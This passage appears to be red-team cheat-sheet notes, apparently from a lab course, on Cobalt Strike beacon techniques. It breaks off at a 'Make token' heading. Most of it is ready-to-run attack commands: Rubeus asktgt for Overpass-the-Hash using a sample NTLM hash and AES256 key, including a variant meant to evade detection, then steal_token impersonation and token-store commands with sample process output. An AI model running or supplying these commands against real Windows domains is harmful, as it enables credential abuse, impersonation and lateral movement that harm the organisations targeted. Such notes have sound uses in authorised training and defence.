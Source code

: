 ### Overpass the Hash

request a Kerberos TGT for a user

```bash
# RC4
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap
# AES256
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap
# OPSEC
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```

### Token Impersonation

> This technique works by obtaining a handle to the target process

```bash
# List process
beacon> ps
PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 5536  1020  mmc.exe                                x64   0           DEV\jking

# Steal token
beacon> steal_token 5536
```

### Token store

This is an evolution on the steal_token command which allows you to steal and store tokens for future use

> The rev2self command will drop the impersonation token, but it will remain in the store so that it can be impersonated again

```bash
# Steal
beacon> token-store steal 5536
# List
beacon> token-store show
# Use
beacon> token-store use 0
# remove
beacon> token-store remove <id>
# remove all
beacon> token-store remove-all
```

### Make token
